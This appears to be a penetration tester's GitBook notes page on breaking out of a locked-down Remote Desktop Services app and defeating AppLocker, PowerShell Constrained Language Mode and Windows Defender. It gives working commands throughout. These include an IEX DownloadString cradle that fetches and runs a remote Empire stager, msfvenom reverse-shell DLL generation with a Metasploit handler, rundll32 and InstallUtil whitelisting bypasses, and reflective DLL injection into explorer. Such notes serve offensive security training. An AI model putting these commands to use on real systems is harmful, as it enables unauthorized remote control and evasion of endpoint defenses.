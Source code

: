 # From RDS app to Empire shell

This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.  
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**

* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**

powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll  
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad

[https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/](https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/)  
[https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)

From the notepad app  
Click Help -&gt; View help -&gt; triggers Internet Explorer

![](../.gitbook/assets/viewhelp.png)

Right click on any link in IE -&gt; save target as -&gt; save as lol.ps1 on the Desktop

![](../.gitbook/assets/lolps1.png)  
Press view downloads in IE, press the dropdown on the file, open with -&gt; notepad. then just write powershell.exe in the file and save again

Now right click -&gt; "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

![](../.gitbook/assets/runwithps.png)

#### Bypssing PoSh constrained mode

Download PowerShdll from [https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll)  
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`  
Navigate to the following URL in IE where [http://10.7.253.10/PowerShdll.dll](http://10.7.253.10/PowerShdll.dll)  
Save as -&gt; PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. But navigating to folders might also be restricted, so in certain ocassions you might need to save to `C:\Users\Username\Desktop`![](../.gitbook/assets/dlpowershdll.png)

I'm not sure exactly how to check for DLL rules in an Applocked environment yet.

Now navigate to the desktop in the other powershell prompt  
Use rundll32 to execute the dll  
`rundll32 .\PowerShdll.dll,main -w`  
A new interactive powershell prompt should pop up  
Verify that constrained language mode has been bypassed with  
`$ExecutionContext.SessionState.LanguageMode`  
It should say FullLanguage

![](../.gitbook/assets/powershdll.png)

**Shortcut**

Ok, so I discovered much later how to avoid having to do the two last steps. Just generate an Empire stager with `set Base64 false` and `set Outfile shell`  
Now from the unrestricted powershell, download the shell and execute it straight into memory.

```text
IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.18/shell');
```

If you are lucky, Defender doesn't pick it up and you get an Empire shell / agent.

I realize after the fact that this is exactly the same steps as using msf below, just fewer hoops.

![](../.gitbook/assets/shortcut.png)

#### Getting meterpreter shell

Generate a dll payload

```text
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.2 lport=8081 -f dll -o msf.dll
```

Set up listener in msf with same payload, host and port.

```text
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Download the msf.dll using the IE "save as" trick from before.  
![](../.gitbook/assets/dll.png)

For some reason I am not sure why the dll payload is not eaten by Windows Defender, not on disk and not when executed. It could possibly be the x64 signature of the payload is not yet recgonized as malware by Defender.

Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\msf.dll,Control_RunDLL`

Shell should now spawn in msf.

![](../.gitbook/assets/msfshell.png)

#### Empire without powershell.exe

This assumes you have a metasploit Session established.  
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.

```text
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:

```text
load powershell
powershell_shell
```

Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire.

![](../.gitbook/assets/powershell_shell.png)

![](../.gitbook/assets/empireagent.png)

Congratulations!

## More advanced technique

#### Bypassing powershell constrained mode and applocker

This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.  
[https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file

```text
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```

4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1

```text
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

5 Base64 encode the entire script using [https://www.base64encode.org/](https://www.base64encode.org/)  
Open the Bypass project in VS and copypaste the base64 into the encoded variable.  
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```text
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```

### Useful links

* [https://github.com/Ben0xA/AwesomerShell](https://github.com/Ben0xA/AwesomerShell)
* [https://www.youtube.com/watch?v=czJrXiLs0wM](https://www.youtube.com/watch?v=czJrXiLs0wM)
* [https://adsecurity.org/?p=2921](https://adsecurity.org/?p=2921)
* [https://bneg.io/2017/07/26/empire-without-powershell-exe/](https://bneg.io/2017/07/26/empire-without-powershell-exe/)
* [https://artofpwn.com/offensive-and-defensive-powershell-ii.html](https://artofpwn.com/offensive-and-defensive-powershell-ii.html)
* [https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)
* [https://github.com/caseysmithrc/DeviceGuardBypasses](https://github.com/caseysmithrc/DeviceGuardBypasses)
* [https://github.com/Joshua1909/AllTheThings](https://github.com/Joshua1909/AllTheThings)
* [https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)
* [https://twitter.com/gentilkiwi/status/976939139248640000](https://twitter.com/gentilkiwi/status/976939139248640000)
* 

